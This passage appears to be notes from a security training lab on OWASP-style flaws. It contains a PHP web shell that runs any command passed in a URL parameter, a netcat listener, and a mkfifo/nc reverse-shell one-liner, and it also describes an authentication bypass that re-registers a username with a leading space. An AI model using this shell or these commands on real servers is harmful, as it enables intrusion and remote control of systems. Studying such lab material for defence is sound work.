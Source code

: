 This task shows how php shells can be used to inject commands using server-side system calls.


Use these links as references.
- [PHP Passthru](https://www.php.net/manual/en/function.passthru.php){:target="_blank"}


Use `http://<ip>/evilshell.php` to access the php based web shell. Any linux commands can be executed, like `whoami`, `uname -a`, `id`, `ifconfig`, `ps -ef`, or windows commands can be executed, like `whoami`, `ver`, `ipconfig`, `taslist`, `netstat -an`.

A reverse shell can also be spawned. A `netcat` listener can be spawned as below.
{% capture code %}{% raw %}nc -lnvp 4444{% endraw %}{% endcapture %} {% include code.html code=code %}

In the url `http://<ip>/evilshell.php`, use the below command to spawn a reverse shell.
{% capture code %}{% raw %}mkfifo /tmp/p ; nc <remote-ip> 4444 0</tmp/p | /bin/sh -i 2>&1 | tee /tmp/p{% endraw %}{% endcapture %} {% include code.html code=code %}

The sample php shell code from `evilshell.php` is as below.
{% capture code %}{% raw %}<?php
  if (isset($_GET["commandString"])) {
    $command_string = $_GET["commandString"];
    try { passthru($command_string); }
    catch (Error $error) { echo "<p class=mt-3><b>$error</b></p>"; }
  }
?>{% endraw %}{% endcapture %} {% include code.html code=code %}

To regd motd data in ubuntu, use the file `cat /etc/update-motd.d/00-header`.


## Task 6 - [Severity 2] Broken Authentication

Authentication flaw types.
- Brute force attacks: If a web application uses usernames and passwords, an attacker is able to launch brute force attacks that allow them to guess the username and passwords using multiple authentication attempts.
- Use of weak credentials: web applications should set strong password policies. If applications allow users to set passwords such a ‘password1’ or common passwords, then an attacker is able to easily guess them and access user accounts. They can do this without brute-forcing and without multiple attempts.
- Weak Session Cookies: Session cookies are how the server keeps track of users. If session cookies contain predictable values, an attacker can set their own session cookies and access users’ accounts.


## Task 7 - [Severity 2] Broken Authentication Practical

Re-registration of an existing user.
- Upon trying to register a username with existing username and a space prepended, website will allow for user registration and will provide same privilege as the user during login.


## Task 11 - [Severity 3] Sensitive Data Exposure (Challenge)
